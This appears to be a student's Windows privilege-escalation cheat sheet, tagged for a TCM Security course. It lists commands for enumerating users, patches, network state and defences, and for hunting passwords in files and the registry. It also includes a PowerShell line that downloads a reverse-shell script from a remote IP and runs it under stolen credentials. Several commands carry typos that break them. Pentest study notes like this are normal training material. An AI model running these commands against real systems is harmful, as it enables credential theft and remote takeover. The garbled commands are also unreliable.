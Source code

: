 # Systeminfo


quick systeminfo to grab system name version and type
```
systeminfo | findstr B/ /C:"OS Name" /C:"OS Version" /CLSystem Type"

```

# Hotfixes

```
wmic qfe # find hotfixes installed
wmic gfe get Caption,Description,HotFixID,InstalledOn # cleaner view
```

# List drives

```
wmic logicaldisk get caption,descriptiom.providername # list drives
wmic logicaldisk get caption # cleaner listing
```

# user enum

```
whoami /priv # check user privs
whoami /groups # check groups
net user # check users
net user babis # check user named babis info 
net localgroup # check groups
net localgroup administrators ## check group named administrator 
```

# Network

```
ipconfig /all # check network info
arp -a # check arp table 
route print # check routes
netstat -ano # # open ports
```

# Passwords

```
findstr /si password *.txt # search for files with rod password
findstr /si password *.txt *.ini *.config # search for files with rod password
```

# AV

```
sc query windefend # check windows defender 
sc queryex type= service # all services running 
```

# firewall

```
netsh advfirewall firewall dump 
netsh firewall show state
netsh firewall show config
```

# Registry
```
reg query HKLM /f password /t REG_SZ /s
```

# Search

```
where /R c:\windows bash # search for bash in windows
find
# flags
/R # recursive 
```

# Running commands as another user

First we create a virable and add creds to it 

```
$SecPass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<user>',$SecPass)

# grap reverse shell with powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadstring('http://10.10.16.2/shell.ps1')" -Credential $cred
```

# Powerup.ps1

```
Invoke-AllChecks  # check for privesc

```
---
Tags: #tcm-security #Windows_priv_esc 
Resources:
[Github windows privesc repo](https://github.com/Gr1mmie/Windows-Priviledge-Escalation-Resources)